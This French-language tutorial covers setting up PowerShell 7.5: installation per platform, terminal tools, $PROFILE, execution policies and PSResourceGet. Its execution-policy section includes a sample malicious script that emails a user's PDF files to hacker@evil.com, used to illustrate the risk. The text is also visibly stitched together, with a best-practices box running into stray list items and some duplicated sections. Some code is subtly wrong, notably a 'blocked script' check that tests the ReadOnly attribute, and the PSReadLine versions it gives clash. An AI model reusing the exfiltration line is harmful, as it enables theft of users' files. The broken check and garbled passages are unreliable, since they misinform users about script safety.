

## Configurer son environnement de travail (2025)

## ⚡️ TL ; DR 2025
1. Installe **PowerShell 7.5.2** avec le gestionnaire natif ( `winget`, `brew`, `apt`, `dnf` ).  
   - Besoin de support long ? restez sur **7.4 LTS**.  
2. Ajoutez **VS Code + extension PowerShell** et **Windows Terminal/oh-my-posh**.  
3. Activez **PSReadLine 2.3.6** (ou 2.4.*-beta pour tester la prédiction “Copilot-like”).  
4. Créez votre **$PROFILE** : alias, modules, prompt.  
5. Gérez vos modules via **PSResourceGet ≥ 1.1.1** et sécurisez l’exécution  
   (`RemoteSigned` en dev, `AllSigned` en prod).

---

Maintenant que vous comprenez les enjeux, voici comment configurer les politiques selon vos besoins :

| Scénario | Commande | Usage typique |
|----------|----------|---------------|
| **Développement local** | `Set-ExecutionPolicy -Scope CurrentUser RemoteSigned` | Scripts locaux libres, téléchargés signés |
| **Production d'entreprise** | `Set-ExecutionPolicy AllSigned` | Conformité / traçabilité maximale |
| **CI/CD temporaire** | `pwsh -ExecutionPolicy Bypass -File script.ps1` | Job éphémère, pas de changement permanent |
| **Tests & développement** | `Set-ExecutionPolicy -Scope Process Unrestricted` | Session temporaire uniquement |

#### Vérifier la politique actuelle

```powershell
# Voir toutes les politiques par scope
Get-ExecutionPolicy -List

# Politique effective (celle qui s'applique)
Get-ExecutionPolicy

# Exemple de sortie :
#        Scope ExecutionPolicy
#        ----- ---------------
#MachinePolicy       Undefined
#   UserPolicy       Undefined
#      Process       Undefined
#  CurrentUser    RemoteSigned
# LocalMachine    RemoteSigned
```

#### Commandes pratiques

```powershell
# Configuration recommandée pour développeur
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned -Force

# Temporaire pour une session de test
Set-ExecutionPolicy -Scope Process Unrestricted

# Débloquer un script téléchargé spécifique
Unblock-File -Path ".\script-telecharge.ps1"

# Vérifier si un script est bloqué
Get-Item ".\script-telecharge.ps1" | Select-Object Name, @{Name="Blocked"; Expression={$_.Attributes -band [System.IO.FileAttributes]::ReadOnly}}
```

> **💡 Bonnes pratiques :**
> 
> - **Développement** : `RemoteSigned` sur `CurrentUser` (pas besoin de droits admin)
> - **Production** : `AllSigned` + certificats d'entreprise
> - **Scripts internes** : Signez avec un certificat auto-signé de votre organisation
> - **Urgence** : `Unblock-File` plutôt que `Bypass` global Ajoutez **VS Code + extension PowerShell** et activez **PSReadLine 2.4** pour la complétion prédictive.
> 3. Créez votre **profil** (`$PROFILE`) pour charger modules, alias, prompt personnalisé.
> 4. Gérez les modules via **PSResourceGet** plutôt que PowerShellGet.
> 5. Sécurisez l’exécution avec une politique `RemoteSigned` (ou plus stricte en prod) et mettez votre shell à jour régulièrement.

---

### 1. Installation rapide par plateforme

| Plateforme                     | Méthode 1 : « 1 ligne »                                             | Méthode 2 : Package officiel                                                                                      | Notes                                                                                                                   |
| ------------------------------ | ------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------- |
| **Windows 10/11**              | `winget install --id Microsoft.PowerShell`                          | MSI depuis [https://github.com/PowerShell/PowerShell/releases](https://github.com/PowerShell/PowerShell/releases) | Winget gère ensuite les mises à jour (`winget upgrade PowerShell`) ([learn.microsoft.com][1], [learn.microsoft.com][2]) |
| **Windows Server**             | —                                                                   | MSI (mode Silencieux) :<br>`msiexec /i PowerShell-7.5.2-win-x64.msi /qn`                                          | Pas de Microsoft Store sur Server                                                                                       |
| **Ubuntu ≥ 22.04 / Debian 12** | `sudo apt-get install -y powershell`<br>(repo Microsoft pré-ajouté) | **Universal pkg** :<br>`sudo dpkg -i powershell_*_amd64.deb`                                                      | Le paquet universel fonctionne sur tout .deb ([learn.microsoft.com][3])                                                 |
| **Fedora / RHEL / CentOS**     | `sudo dnf install -y powershell`                                    | RPM depuis GitHub                                                                                                 | Ajoutez le dépôt Microsoft via `rpm --import https://packages.microsoft.com` ([learn.microsoft.com][4])                 |
| **macOS 13+**                  | `brew install --cask powershell`                                    | `.pkg` signé depuis GitHub                                                                                        | `brew upgrade powershell` pour rester à jour                                                                            |


> **🎯 Cible de ce cours** : utilisez **7.5.2 Stable** (24 juin 2025) ou **7.6-preview** si vous aimez vivre dangereusement. ([github.com][5])

---

### 2. Optimiser votre terminal

1. **Éditeur conseillé** : **Visual Studio Code** + extension *PowerShell* (débogueur, IntelliSense, PSScriptAnalyzer).
2. **Terminal moderne** :

   * **Windows Terminal** (onglets, thèmes, GPU text rendering).
   * **oh-my-posh** ou **Starship** pour un prompt riche, cross-platform.
3. **PSReadLine 2.4** (déjà inclus) :

   ```powershell
   Set-PSReadLineOption -PredictionSource HistoryAndPlugin
   Install-Module PSReadLine -Scope CurrentUser -Force   # si mise à jour
   ```

   *Résultat : suggestions inline façon GitHub Copilot pour vos commandes.*

---

### 3. Créer et exploiter son profil

```powershell
if (-not (Test-Path $PROFILE)) {
    New-Item -Type File -Path $PROFILE -Force
}
code $PROFILE     # Ouvre dans VS Code
```

Exemples de contenu :

```powershell
# Alias persos
Set-Alias yakoiici Get-ChildItem
# Modules auto-import
Import-Module PSReadLine, posh-git, Microsoft.PowerShell.SecretStore
# Prompt custom oh-my-posh
oh-my-posh init pwsh --config "$env:POSH_THEMES_PATH/jandedobbeleer.omp.json" | Invoke-Expression
```

---

### 4. Comprendre les politiques d'exécution PowerShell

#### Qu'est-ce qu'une politique d'exécution ?

La **politique d'exécution** (Execution Policy) est un mécanisme de sécurité PowerShell qui contrôle quels scripts peuvent être exécutés sur votre système. C'est une **couche de protection** contre l'exécution accidentelle de code malveillant.

#### Pourquoi cette sécurité existe-t-elle ?

```mermaid
graph TB
    A[Script PowerShell téléchargé] --> B{Politique d'exécution}
    B -->|Restrictive| C[❌ Bloqué]
    B -->|RemoteSigned| D{Script signé ?}
    B -->|Unrestricted| E[✅ Exécuté]
    D -->|Oui| F[✅ Exécuté]
    D -->|Non| G[❌ Bloqué]
    
    style C fill:#ffebee
    style G fill:#ffebee
    style E fill:#e8f5e8
    style F fill:#e8f5e8
```



**Risques sans politique d'exécution :**
- 🦠 **Malware** : scripts malveillants téléchargés depuis Internet
- 🎣 **Phishing** : scripts qui volent des identifiants ou données
- 🔓 **Escalade de privilèges** : exploitation de failles système
- 💥 **Dommages accidentels** : scripts mal écrits qui cassent le système

#### Les différents niveaux de sécurité

| Politique | Niveau | Description | Cas d'usage |
|-----------|--------|-------------|-------------|
| **Restricted** | 🔒 Maximum | Aucun script autorisé | Serveurs critiques |
| **AllSigned** | 🔐 Élevé | Tous les scripts doivent être signés | Production d'entreprise |
| **RemoteSigned** | ⚖️ Équilibré | Scripts locaux libres, téléchargés signés | Développement local |
| **Unrestricted** | ⚠️ Minimal | Tous les scripts autorisés (avec avertissement) | Tests, développement |
| **Bypass** | 🚫 Aucun | Aucune restriction | CI/CD, scripts automatisés |

#### Scopes (portée) des politiques

PowerShell applique les politiques par **ordre de priorité** :



1. **MachinePolicy** : Défini par GPO d'entreprise (priorité absolue)
2. **UserPolicy** : Défini par GPO utilisateur
3. **Process** : Uniquement pour la session PowerShell actuelle
4. **CurrentUser** : Pour l'utilisateur actuel
5. **LocalMachine** : Pour tous les utilisateurs de la machine

#### Exemple pratique : Les dangers

**Scénario dangereux :**
```powershell
# Un utilisateur télécharge "script-utile.ps1" depuis un email
# Ce script contient en réalité :
Get-ChildItem C:\Users\$env:USERNAME\Documents\*.pdf | 
    ForEach-Object { Send-MailMessage -To "hacker@evil.com" -Attachments $_.FullName }
# → Vole tous les PDFs et les envoie à un attaquant !
```

**Avec RemoteSigned :**
```
PS> .\script-utile.ps1
Execution of scripts is disabled on this system.
For more information, see about_Execution_Policies at https://go.microsoft.com/fwlink/?LinkID=135170.
```

#### Signature numérique des scripts

Pour les environnements d'entreprise, signez vos scripts :

```powershell
# Créer un certificat de test (développement uniquement)
$cert = New-SelfSignedCertificate -Type CodeSigningCert -Subject "CN=MonScript" -CertStoreLocation Cert:\CurrentUser\My

# Signer un script
Set-AuthenticodeSignature -FilePath ".\mon-script.ps1" -Certificate $cert

# Vérifier la signature
Get-AuthenticodeSignature -FilePath ".\mon-script.ps1"
```


---

### 4.1. Politique d'exécution & sécurité - Configuration pratique

| Scénario     | Commande                                              | Usage typique                             |
| ------------ | ----------------------------------------------------- | ----------------------------------------- |
| Dév local    | `Set-ExecutionPolicy -Scope CurrentUser RemoteSigned` | Scripts locaux libres, téléchargés signés |
| Production   | `Set-ExecutionPolicy AllSigned`                       | Conformité / traçabilité                  |
| Invité CI/CD | `-ExecutionPolicy Bypass` (argument isolé)            | Job éphémère, pas de changement permanent |

> **Bon réflexe** : signez vos scripts (*.ps1*) avec un certificat d’éditeur interne.

---

### 4.2. PSResourceGet : le nouveau gestionnaire de modules

#### Pourquoi PSResourceGet ?

**PowerShellGet** (v1/v2) avait des problèmes :
- ❌ Lent pour résoudre les dépendances
- ❌ Conflits de versions
- ❌ Sécurité limitée
- ❌ Pas de support NuGet moderne

**PSResourceGet** (v1.1+) résout ces problèmes :
- ✅ **Performance** : jusqu'à 10x plus rapide
- ✅ **Sécurité** : vérification des signatures et checksums
- ✅ **Compatibilité** : support NuGet v3, sources multiples
- ✅ **Fiabilité** : meilleure gestion des dépendances

#### Comparaison des commandes

| Ancienne (PowerShellGet) | Nouvelle (PSResourceGet) | Action |
|--------------------------|--------------------------|--------|
| `Find-Module` | `Find-PSResource` | Rechercher un module |
| `Install-Module` | `Install-PSResource` | Installer un module |
| `Update-Module` | `Update-PSResource` | Mettre à jour |
| `Uninstall-Module` | `Uninstall-PSResource` | Désinstaller |
| `Get-InstalledModule` | `Get-PSResource` | Lister installés |

---

### 5. Gérer modules & scripts avec **PSResourceGet** - Guide pratique

> PowerShellGet v1/v2 est en fin de vie ; passez à **PSResourceGet** (stable v1.1+). ([learn.microsoft.com][6])

#### Installation et configuration

```powershell
# 1. Installer PSResourceGet (si absent)
Install-Module Microsoft.PowerShell.PSResourceGet -Scope CurrentUser -Force

# 2. Vérifier l'installation
Get-Module Microsoft.PowerShell.PSResourceGet -ListAvailable

# 3. Configurer PowerShell Gallery comme source de confiance (optionnel)
Set-PSResourceRepository -Name PSGallery -Trusted
```

#### Utilisation quotidienne

```powershell
# Rechercher un module
Find-PSResource Az* | Select-Object Name, Version, Description

# Voir les détails d'un module
Find-PSResource Az -IncludeDependencies

# Installer un module (exemple : Azure PowerShell)
Install-PSResource Az -TrustRepository -Scope CurrentUser

# Installer une version spécifique
Install-PSResource Az -Version "12.0.0" -Scope CurrentUser

# Lister les modules installés
Get-PSResource

# Mettre à jour un module spécifique
Update-PSResource Az

# Mettre à jour tous les modules
Update-PSResource

# Désinstaller un module
Uninstall-PSResource Az
```

#### Exemple concret : Configuration d'un environnement Azure

```powershell
# Rechercher tous les modules Azure disponibles
Find-PSResource Az* | Where-Object {$_.Name -like "Az.*"} | 
    Select-Object Name, Version, Description | 
    Format-Table -AutoSize

# Installer le module Azure complet
Install-PSResource Az -TrustRepository -Scope CurrentUser

# Vérifier l'installation
Get-PSResource Az*

# Utiliser le module installé
Connect-AzAccount
Get-AzSubscription
```

#### Bonnes pratiques

- **Scope CurrentUser** : évite les droits administrateur
- **-TrustRepository** : fait confiance à PowerShell Gallery
- **Mises à jour régulières** : `Update-PSResource` mensuel
- **Nettoyage** : désinstallez les modules non utilisés

---

### 6. Garder son shell à jour

| OS               | Mise à jour                                                        |
| ---------------- | ------------------------------------------------------------------ |
| Windows (winget) | `winget upgrade --id Microsoft.PowerShell`                         |
| Windows (MSI)    | Téléchargez le nouveau MSI et relancez **/qn REINSTALL=ALL**       |
| Linux (apt/dnf)  | `sudo apt-get upgrade powershell` ou `sudo dnf upgrade powershell` |
| macOS            | `brew upgrade powershell`                                          |

---

### 7. Checklist de fin d’installation

```mermaid
graph TD
  A[pwsh --version] -->|>=7.5 ?| B[OK]
  B --> C[code --install-extension ms-vscode.PowerShell]
  C --> D[Set-ExecutionPolicy RemoteSigned]
  D --> E[Install-Module Microsoft.PowerShell.PSResourceGet]
  E --> F[Create $PROFILE + alias + prompt]
  F --> G🎉
```

> **✅ Vous voilà prêt·e !**
> Ouvrez `pwsh`, tapez `Get-Help`… et commencez à automatiser le monde.

[1]: https://learn.microsoft.com/en-us/powershell/scripting/install/installing-powershell-on-windows?view=powershell-7.5&utm_source=chatgpt.com "Installing PowerShell on Windows - Learn Microsoft"
[2]: https://learn.microsoft.com/en-us/windows/package-manager/winget/?utm_source=chatgpt.com "Use WinGet to install and manage applications | Microsoft Learn"
[3]: https://learn.microsoft.com/en-us/powershell/scripting/install/install-ubuntu?view=powershell-7.5&utm_source=chatgpt.com "Installing PowerShell on Ubuntu - Learn Microsoft"
[4]: https://learn.microsoft.com/en-us/powershell/scripting/install/installing-powershell-on-linux?view=powershell-7.5&utm_source=chatgpt.com "Install PowerShell on Linux - Learn Microsoft"
[5]: https://github.com/PowerShell/PowerShell/discussions/25690?utm_source=chatgpt.com "v7.5.2 Release of PowerShell #25690 - GitHub"
[6]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.psresourceget/?view=powershellget-3.x&utm_source=chatgpt.com "Microsoft.PowerShell.PSResourceGet Module"
